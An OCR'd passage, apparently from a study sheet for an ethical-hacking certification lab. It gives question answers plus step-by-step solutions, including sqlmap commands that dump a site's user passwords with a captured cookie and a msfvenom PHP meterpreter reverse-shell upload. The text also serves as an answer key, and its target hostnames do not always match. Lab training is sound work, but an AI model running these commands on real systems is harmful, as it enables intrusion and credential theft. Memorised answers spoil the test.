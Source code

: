 5. Open manuals go malware analysis folder, static malware analysis folder and PE Extraction tools folder
then you can install and launch it.
6. Click on file and upload the file from windows, after uploading it manually open the header file then you
can see the entry point address.
11.You are investigating a massive DDoS attack launched against a target at 10.10.1.10. Identify the attacking IP
address that sent most packets to the victim machine. The network capture file "attack-traffic.pcapng" is saved in
the Documents folder of the "EH Workstation – 1" (Parrot Security) machine.
Answer: 172.20.0.21
1. Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
2. tcp.flags.syn == 1 and tcp.flags.ack == 0
3. you can find the high number of packets send to10.10.1.10 address and that answer.
12.Perform an SQL injection attack on your target web application cinema.cehorg.com and extract the password of
a user Sarah. You have already registered on the website with credentials Karen/computer.
Answer: abc123
1. now in parrot os, open firefox and login into the website given and details.
2. Go to profile and and right cleck and inspect and console type “document.cookie” you will get one value.
3. Open the terminal and type the below commands to get the password of other user.
4. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=;" –-dbs
5. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moveiscope – -tables
6. sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0"
-D moviescope -T user-Login – -dump
7. You will get all the Useraname and Passwords of the website.
13.Exploit the web application available at www.cehorg.com and enter the flag's value at the page with page_id=84.
Answer:
1. nmap -sV --script=http-enum [target domain or IP address]
2. Find any input parameter on website and capture the request in burp and then use it to perform sql
injection using sqlmap.
3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT”
you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
4. sqlmap -r <txt file from burpsuite> --dbs
5. sqlmap -r <txt file from burpsuite> -D <database name> --tables
6. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns
7. sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all
8. then login and do the url parameter change page_id=1 to page_id=84
14.Perform vulnerability research and exploit the web application training.cehorg.com, available at 192.168.0.64.
Locate the Flag.txt file and enter its content as the answer.
Answer: p74NSHXz
1. Scan the target with Zapp to find the vulnerability. Then exploit it. It can be file upload/ File inclusion
vulnerability on DVWA.
2. msfconsole in one tab next in new tab
3. msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php
4. >use exploit/multi/handler or use 30
5. >set payload php/meterpreter/reverse_tcp
6. Set LHOST ipadd
7. Upload a file you created as exploit.php
8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls
get the files.